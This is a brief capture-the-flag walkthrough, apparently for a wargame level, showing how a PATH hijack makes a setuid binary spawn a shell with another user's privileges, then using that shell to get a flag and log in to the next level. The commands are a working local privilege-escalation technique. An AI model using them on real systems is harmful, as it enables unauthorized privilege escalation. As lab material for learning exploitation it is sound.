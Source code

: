 ssh:
- `echo '/bin/sh' > /tmp/echo`
- `chmod +x /tmp/echo`
- `export PATH=/tmp:$PATH`
- `./level03` gives us a subshell with the privileges of level03 (created by flag03)

subshell:
- `getflag`, copy the flag
- `exit`

ssh:
- `su level04`, paste the flag as the password